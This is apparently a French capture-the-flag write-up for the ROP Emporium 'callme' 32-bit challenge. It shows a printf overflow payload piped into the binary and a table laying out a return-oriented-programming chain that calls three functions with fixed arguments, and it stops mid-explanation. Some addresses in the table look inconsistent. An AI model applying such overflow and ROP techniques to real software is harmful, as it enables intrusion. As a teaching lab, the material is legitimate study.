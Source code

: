     printf "%44s\x4f\x87\x04\x08\x00" A|./callme32
    callme by ROP Emporium
    x86

    Hope you read the instructions...

    > Thank you!
    Incorrect parameters

L'énnoncé nous indique que l'objectif est d'appeller successivement les trois fonctions avec des paramètres attendus.

"You must call the callme_one(), callme_two() and callme_three() functions in that order, each with the arguments 0xdeadbeef, 0xcafebabe, 0xd00df00d e.g. callme_one(0xdeadbeef, 0xcafebabe, 0xd00df00d) to print the flag."

## Construction de la chaine de ROP

### Introduction

Pour réaliser l'appel d'une fonction x86 32 bits le passage des paramètres se fait simplement sur la pile

Les trois arguments sont donc attendus sur la pile par chaque appel de fonction.

Ce qui permet d'envisager d'appeller

| ROP entry | comment |
| ----------- | ------- |
| 0x80484f0  | callme_one@plt |
| 0xdeadbeef | param1 |
| 0xcafebabe | param2 |
| 0xd00df00d | param3 |
| 0x0804876f | callme_two@plt |
| 0xdeadbeef | param1 |
| 0xcafebabe | param2 |
| 0xd00df00d | param3 |
| 0x0804875e | callme_three@plt |
| 0xdeadbeef | param1 |
| 0xcafebabe | param2 |
| 0xd00df00d | param3 |

Il y a cependant quelques petites nuances.

- lorsqu'on execute ue fonction en sautant directement à son adresse, l'adresse de retour n'est pas empilée comme c'est le cas
avec un call.
- la fonction va utiliser les trois paramètres mais quid de l'enchainement sur l'appel de fonction suivant ?
